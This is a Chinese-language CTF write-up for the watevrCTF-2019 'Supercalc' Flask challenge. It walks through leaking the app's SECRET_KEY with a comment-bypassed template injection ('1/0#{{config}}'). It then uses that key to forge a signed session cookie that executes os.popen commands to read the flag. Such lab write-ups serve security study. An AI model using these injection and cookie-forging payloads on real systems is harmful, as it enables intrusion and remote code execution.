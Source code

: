 # \[watevrCTF-2019]Supercalc

## \[watevrCTF-2019]Supercalc

## 考点

* Flask SSTI获取config
* Flask SSTI使用注释绕过，`#`绕过

## wp

输入`9*9`发现会回显

![](<../../.gitbook/assets/image (1) (1) (1).png>)

返回包会设置新的cookie

![](<../../.gitbook/assets/image (24) (1).png>)

解密cookie

```
flask-unsign.exe --decode --cookie .eJyrVsrILC7JL6pUsoquVkrOT0lVslKyVNBSsFSq1SEoEFsLAHINEiw.Ympom w.4lGVLm2AEMchuz70376S52EDT6M
{'history': [{'code': '9 * 9'}, {'code': '9 * 9'}, {'code': '9 * 9'}]}
```

直接输入`{{7*7}}`或者`{%print(1)%}`会提示字符错误

计算器的功能那就输入`1/0`主动构造错误输入

![](<../../.gitbook/assets/image (22) (1).png>)

发现它是把输入直接当代码处理的，这里可以fuzz一下看看哪些字符串没过滤

输入`1/0#{{7*7}}`可以看到回显的结果

![](<../../.gitbook/assets/image (8) (1).png>)

输入输入`1/0#{{config}}`获取config

```
Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': 'cded826a1e89925035cc05f0907855f7', 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_DOMAIN': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200), 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093}
```

题目把cookie中的code执行了，修改为Python代码

```
flask-unsign.exe --secret "cded826a1e89925035cc05f0907855f7" --sign --cookie "{'history': [{'code': '__import__(\"os\").popen(\"cat flag.txt\").read()'}]}"
```

结果`eyJoaXN0b3J5IjpbeyJjb2RlIjoiX19pbXBvcnRfXyhcIm9zXCIpLnBvcGVuKFwiY2F0IGZsYWcudHh0XCIpLnJlYWQoKSJ9XX0.YmpyRw.x1LGNmBA3XHPATpHZDhGadZOoNA`

![](<../../.gitbook/assets/image (34) (1).png>)

